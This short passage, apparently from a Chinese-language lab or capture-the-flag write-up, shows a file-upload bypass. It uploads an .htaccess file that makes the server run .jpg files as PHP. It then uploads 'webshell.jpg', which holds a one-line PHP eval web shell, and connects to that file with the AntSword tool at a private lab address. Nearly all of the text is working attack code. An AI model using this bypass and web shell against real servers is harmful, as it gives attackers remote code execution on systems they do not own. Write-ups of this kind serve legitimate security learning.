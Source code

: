 那么简单了，直接覆写 `.jpg` 文件格式的解析

```plaintext title=".htaccess"
AddType application/x-httpd-php .jpg
```

上传之后，上传一个 `webshell.jpg`

```php title="webshell.jpg"
<?php @eval($_POST['shell']) ?>
```

![img](img/image_20250426-152637.png)

尝试使用蚁剑连接 `http://192.168.56.129/74221/uploads/123/webshell.jpg`
